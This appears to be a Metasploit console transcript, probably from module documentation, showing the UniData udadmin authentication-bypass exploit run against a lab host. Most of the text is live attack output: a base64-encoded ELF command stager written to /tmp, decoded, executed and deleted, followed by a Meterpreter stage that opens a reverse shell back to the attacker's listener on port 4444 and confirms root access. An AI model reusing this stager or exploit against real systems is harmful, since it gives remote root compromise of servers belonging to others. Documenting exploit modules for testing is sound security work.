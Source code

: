 ```
LHOST => ens160

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
VERBOSE => true

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / root:0:1000
[*] 10.0.0.198:31438 - Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAGgEAAAAAAAC8AQAAAAAAAAAQAAAAAAAAajlYDwVIhcB0CEgx/2o8WA8FBHAPBWo5WA8FSIXAdeox/2oJWJm2EEiJ1k0xyWoiQVpqB1oPBUiFwHhRagpBWVBqKViZagJfagFeDwVIhcB4O0iXSLkCABFcCgAA41FIieZqEFpqKlgPBVlIhcB5JUn/yXQYV2ojWGoAagVIiedIMfYPBVlZX0iFwHnHajxYagFfDwVean5aDwVIhcB47f/m>>'/tmp/AsOOd.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/eFHfW' < '/tmp/AsOOd.b64' ; chmod +x '/tmp/eFHfW' ; '/tmp/eFHfW' ; rm -f '/tmp/eFHfW' ; rm -f '/tmp/AsOOd.b64'"]
[*] 10.0.0.198:31438 - Sending OsCommand request
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 10.0.0.198
[*] 10.0.0.198:31438 - Command Stager progress - 100.00% done (863/863 bytes)
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.198:54564) at 2023-04-11 09:41:57 -0700

meterpreter > getuid
Server username: root
```
